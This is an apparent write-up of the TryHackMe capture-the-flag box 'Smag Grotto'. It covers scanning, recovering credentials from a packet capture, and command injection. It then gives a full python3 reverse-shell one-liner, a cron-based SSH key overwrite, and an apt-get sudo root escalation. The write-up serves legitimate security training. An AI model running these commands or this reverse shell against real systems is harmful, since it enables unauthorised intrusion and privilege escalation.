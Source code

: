 # 'Smag Grotto' box writeup

## Smag Grotto is a CTF box written by JakeDoesSec and available on the [TryHackMe platform](https://tryhackme.com)

## Read about [Crontab service](https://opensource.com/article/17/11/how-use-cron-linux), [apt-get package system tool](https://itsfoss.com/apt-get-linux-guide/) and [APT Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

![bg](images/background.png?)

## Foothold

+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.163.139``

+ **There are 2 services running on default ports: ssh and http**

![1](images/nmap_scan_sg.jpg?)

+ **Visiting the http site, we are welcomed by a big Smag title with a small announce from the developer of the site**

![2](images/site_sg.png?)

+ **Let's perform a gobuster to search some directories on the website. I'm using the common.txt wordlist, a default wordlist on kali machines**

``gobuster dir -u http://10.10.163.139/ -w /usr/share/wordlists/dirb/common.txt``

![3](images/dirbuster.jpg?)

+ **We found a mail directory, so let's check it out into the web browser. It seems to be like a mail message left on the website to notify a future migration. The mail was written with the intention to arrive to the admin of the page**

![4](images/mail_page.png?)

+ **Inside the first Network Migration box of the message, we can spot the dHJhY2Uy.pcap, a linked file which seems to be a packet data of this network. Let's download that file and go into a Wireshark analysis of this packet.**

![5](images/wiresh_packet.png?)

+ **We can spot a POST login request inside the data packet, so let's follow TCP stream into this packet**

![6](images/tcp_stream.png?)

+ **Bingo! We found some credentials in plain text form. Looking in the picture above us, we can see the Host that has been used in the POST login request: development.smag.thm. If we are trying to access that page, we're having trouble finding that site... But, judging on the mails that the developers shared between them, the website suffered a migration, so let's just try to change our hosts list to override the DNS**

``sudo vim /etc/hosts``

![7](images/hosts.jpg?)

+ **Now, let's try to access the development.smag.thm/login.php page so we can use our credentials**

![7](images/login_1.jpg?)

+ **We are welcomed by a big title 'Enter a command' with a box below. I tried some several linux commands like ls, whoami, etc, but i can't see no output. So i've tried to download a file on the box machine with the wget, hosting a simple python server on mine, just to check if the commands are available and if it's worth trying a reverse shell.**

![8](images/wget.jpg?)

## User escalation

+ **It's all working, we have the GET request so let's move on to a reverse shell, using python3. I've tried with python but not working, because probably on the machine a python3 is installed.**
  **Firstly, listen to the 1234 port**
``nc -lvnp 1234``

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

 **And here it's our shell, connected with the www-data user. Let's upgrade it to an interactive one.**

``python3 -c 'import pty; pty.spawn("/bin/bash")'``

![9](images/entered_2.jpg?)

+ **Let's look into the crontab file and understand it. We have a cron which tells us that the root user is making an overwriting action every minute through the cat command from the** jake_id_rsa.pub.backup **file to the** authorized_keys **file of the jake user. This means that if we can modify the jake_id_rsa.pub.backup content, we can connect with the jake user on the ssh service.**

![10](images/crontab.jpg?)

 **Luckily, the** jake_id_rsa.pub.backup **file has writing permission for every user.**

![11](images/fileperm.jpg?)

+ **Let's copy our public key into the remote box.**

``cat /home/kali/.ssh/id_rsa.pub``

``echo "your_id_rsa.pub" > /opt/.backups/jake_id_rsa.pub.backup``

![12](images/copy_id.jpg?)

![13](images/copy_id_2.jpg?)

+ **Now, we have overwritten the public ssh and we can use public key authentication. Voila, there's our user flag**

![13](images/user_flag.jpg?)

## Root Escalation

+ **Running the** ``sudo -l`` **command, we can see the allowed commands for the user jake. He has a powerful accessible command to run: apt-get, which is the command line tool to interact with this packaging system.**

![14](images/sudola.jpg?)

+ **Exploiting the apt-get vulnerability, we can use the tool to gain a root access, using the update option and simultaneously invoking the bash into the root account**

``sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash``

 ![15](images/root_flag_1.jpg?)

 **So here we got the root flag. It was a funny box with an interesting vulnerability based on apt tool, a very useful box for beginners.**
